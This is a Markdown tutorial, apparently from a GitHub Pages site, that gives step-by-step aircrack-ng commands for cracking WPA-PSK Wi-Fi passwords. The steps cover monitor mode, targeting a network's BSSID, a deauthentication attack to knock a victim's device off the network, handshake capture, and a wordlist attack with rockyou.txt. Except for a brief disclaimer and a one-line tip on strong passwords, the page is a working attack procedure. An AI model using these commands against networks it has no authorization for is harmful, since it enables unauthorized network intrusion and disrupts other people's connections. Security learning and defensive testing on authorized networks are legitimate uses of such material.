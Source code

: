 ```yaml
---
title: WPA-PSK Hacking Guide
layout: default
nav_order: 5
---
```


{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. This is for educational purposes only. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

# **WPA-PSK HACKING GUIDE**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize `WPA-PSK` (Wi-Fi Protected Access Pre-Shared Key) encryption, which is commonly used in wireless networks to secure data transmission.

While it offers a level of security, there are vulnerabilities to consider. This guide will explore one of the most common methods of hacking WPA-PSK networks for educational purposes only.
 

## **Introduction**

When you connect to a network from a wireless device, a `handshake` is sent from the device to the `router`. This `handshake` contains the `encrypted password`.

While it's not possible to reverse the `encrypted password`, you can use a technique called a `word list attack`. A word list is a huge text file containing thousands of passwords. By comparing the encrypted `handshake` password with the passwords in the word list, you can determine the real password.

## **Requirements**

- `Linux` distro distribution;
- PC with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### **Determine the Network Interface**

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with w (e.g., `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including IP addresses, MAC addresses, and related configurations. It is used for troubleshooting and network configuration purposes.

### **Enable Monitor Mode**

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### **Verify Monitor Mode**

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.

### **Scan for Networks**

<div class="code-example" markdown="1">
Use `airodump-ng` to view the networks around you.
<br>This command will display a list of nearby networks along with their `BSSIDs` (network MAC addresses) and `channels`.
</div>
```bash
airodump-ng <wireless interface>mon
```

### **Target Network**

Identify the `BSSID` and `channel` of the network you wish to attack.

### **Capture the Handshake**

<div class="code-example" markdown="1">
This command will show all the devices currently connected to that network.
<br>If you watch a video on one of these devices, the amount of `packets` (frames) being set to a device increases a lot. 
<br>Type this command in a new terminal window:
</div>
```bash
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - the desired name for the captured handshake file;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Deauthentication Attack**

<div class="code-example" markdown="1">
Now we need to to send `de-authentication packets` to the victim's device, forcing it to disconnect and reconnect to the network so we can capture the `handshake`.
<br>Leave the previous terminal open and running.
<br>Use this command in another terminal:
</div>
```bash
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `-0 10` - de-authentication and we gonna send 10 packets;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to de-authenticate (e.g., the victim's device);
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Capture the Handshake**

<div class="code-example" markdown="1">
Observe the terminal running `airodump-ng` (Capture the Handshake) and wait for a device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.
</div>

### **Word List Attack**
<div class="code-example" markdown="1">
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from here.
<br>Now let's attempt to match the captured handshake with passwords from the word list.
<br>Use the command:
</div>
```bash
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt);
- `<filename>` - name of the captured handshake file;

### **Cracked!**
<div class="code-example" markdown="1">
After performing these steps, your internet connection may still be interrupted.
<br>To fix this, you can either restart your computer or execute the command:
</div>
```bash
airmon-ng stop <monitor interface>
systemctl restart network*
```

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

## Conclusion
In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing de-authentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a star, and thank you for reading!
